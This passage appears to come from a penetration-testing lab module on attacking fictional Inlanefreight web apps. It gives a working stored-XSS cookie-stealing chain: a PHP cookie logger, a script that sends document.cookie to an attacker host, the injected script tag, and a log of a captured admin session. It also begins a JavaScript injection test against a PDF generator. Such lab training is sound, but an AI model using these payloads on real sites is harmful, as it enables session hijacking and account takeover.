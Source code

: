 <p>Now we need to figure out how we can steal an admin's cookie so we can log in and see what type of access we can get. We can do this by creating the following two files:</p>
<ol>
<li>index.php</li>
</ol>
<pre><code class="language-php">&lt;?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key =&gt; $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?&gt;
</code></pre>
<ol start="2">
<li>script.js</li>
</ol>
<pre><code class="language-javascript">new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie
</code></pre>
<p>Next, start a PHP web server on your attack host as follows:</p>
<pre><code class="language-shell-session">sudo php -S 0.0.0.0:9200
</code></pre>
<p>Finally, create a new ticket and submit the following in the message field:</p>
<pre><code class="language-javascript">"&gt;&lt;script src=http://10.10.14.15:9200/script.js&gt;&lt;/script&gt;
</code></pre>
<p>We get a callback on our web server with an admin's session cookie:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo php -S 0.0.0.0:9200

[Tue Jun 21 00:33:27 2022] PHP 7.4.28 Development Server (http://0.0.0.0:9200) started
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Accepted
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 [200]: (null) /script.js
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Closing
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 Accepted
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99

&lt;SNIP&gt;
</code></pre>
<p>Next, we can use a Firefox plugin such as <a href="https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&amp;utm_medium=referral&amp;utm_content=search">Cookie-Editor</a> to log in using the admin's session cookie.</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/163/edit_cookie.png"/></p>
<p>Click on the save button to save the cookie named <code>session</code> and click on <code>Login</code> in the top right. If all is working as expected, we will be redirected to <code>http://support.inlanefreight.local/dashboard.php</code>. Take some time and record yet another finding, <code>Cross-Site Scripting (XSS)</code>, noting that the finding is high-risk because it can be used to steal an active admin's session and access the ticketing queue system. Consult the <a href="https://academy.hackthebox.com/module/details/103">Cross-Site Scripting (XSS)</a> module for a refresher on XSS and the various ways this class of vulnerabilities can be leveraged, including session hijacking.</p>
<hr/>
<h2>tracking.inlanefreight.local</h2>
<p>The site at <code>http://tracking.inlanefreight.local/</code> allows us to enter a tracking number and receive a PDF showing the status of our order. The application takes user input and generates a PDF document. Upon PDF generation, we can see that the <code>Tracking #:</code> field takes any input (not just numbers) that we specify in the search box before hitting the <code>Track Now</code> button. If we insert a simple JavaScript payload such as <code>&lt;script&gt;document.write('TESTING THIS')&lt;/script&gt;</code> and click <code>Track Now</code>, we see that the PDF is generated and the message <code>TESTING THIS</code> is rendered, which seems to mean that the JavaScript code is executing when the webserver generates the document.</p>